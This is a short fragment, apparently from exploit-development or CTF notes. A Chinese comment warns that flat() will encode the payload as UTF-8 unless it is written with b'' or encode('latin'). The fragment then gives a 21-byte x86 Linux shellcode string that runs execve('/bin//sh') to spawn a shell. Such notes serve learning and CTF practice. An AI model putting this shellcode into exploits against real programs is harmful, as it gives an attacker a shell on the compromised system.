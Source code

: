
# 一定要用 b'' 或 encode('latin')。否则flat时会用 utf格式编码字符就不对了
```sh
shellcode_x86 = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
```
